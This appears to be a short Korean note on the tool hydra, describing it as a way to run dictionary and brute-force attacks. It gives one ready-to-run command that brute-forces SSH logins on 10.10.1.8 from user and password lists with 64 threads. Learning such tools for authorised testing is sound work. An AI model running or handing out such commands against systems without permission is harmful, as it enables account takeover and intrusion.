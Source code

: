 # hydra
hydra는 사전대입공격, 무차별대입 공격을 쉽게하게 해주는 도구이다.
``` bash
hydra -I -t 64 -T 64 -L ./user.txt -P ./test_pass.txt ssh://10.10.1.8 -v
```
